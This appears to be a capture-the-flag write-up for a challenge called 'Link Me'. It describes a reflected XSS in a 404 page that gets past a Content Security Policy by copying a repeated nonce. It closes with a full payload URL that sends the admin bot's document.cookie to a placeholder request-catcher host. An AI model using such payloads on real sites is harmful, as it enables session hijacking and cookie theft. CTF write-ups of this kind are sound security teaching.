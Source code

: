 # Link Me

Exploit: Reflected XSS + CSP bypass

The nonce in the CSP is repeated (NEVER do this). Just copy-paste the nonce into your script tag.

XSS vector is in the 404 page, not in a GET param like before. 

The file `adminbot.js` was provided, which is the bot that visits user-provided links. Observe that, unlike Color Me and Poem Me, the cookie is set on localhost at port 8989. Therefore, making the bot visit 
`linkme.ctf.maplebacon.org` wouldn't produce a cookie - making the bot visit `localhost:8989` would.

For example, if the nonce was `gsaKUw1dZqymTQ==`,
```
http://localhost:8989/%3Cscript%20nonce=gsaKUw1dZqymTQ==%3Edocument.location='requestcatcherhere?c=%27+(document.cookie)%3C/script%3E
```